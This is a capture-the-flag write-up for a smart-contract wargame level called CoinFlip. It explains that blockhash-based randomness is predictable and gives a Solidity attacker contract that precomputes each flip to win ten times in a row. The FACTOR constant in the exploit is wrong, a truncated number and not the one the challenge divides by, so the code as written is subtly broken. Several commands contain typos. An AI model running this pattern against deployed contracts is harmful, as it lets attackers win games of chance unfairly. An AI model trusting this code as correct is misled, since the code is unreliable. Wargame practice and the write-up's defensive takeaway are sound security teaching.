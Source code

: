 Level 3: CoinFlip

Objective:

You must consecutively win the coin flip 10 times in a row.

Vulnerability:

It uses blockhash of the previous block and divides it to a huge constant to decide the coutcome.
Since blockhash and factor are known the outcome can be predicted.

Explanation:

We can do the same calculations in another contract. Predict whether the result will be true or false then submit the correct guess to the flip() function.
We repeat this 10 times in a row to win.

Solution:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface CoinFlip {
function flip(bool \_guess) external returns (bool);
}
contract CoinFlipHack {
address public target;
uint256 FACTOR = 1157920892373161954235709850086879078532699846656405640394575840079131296399;
    constructor(address _target) {
        target = _target;
    }
    function predictAndFlip() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool guess = coinFlip == 1 ? true : false;
        CoinFlip(target).flip(guess);
    }
}
```
put the contracts address(await contract.adrress) in \_target then call predictAndFLip() 10 times

you can check using await contract.consecutiveWins()
if it returns 10 submit the level.

Key Takeaways:

Never use blockhash for randomness as attackers might predict or manipulate it.

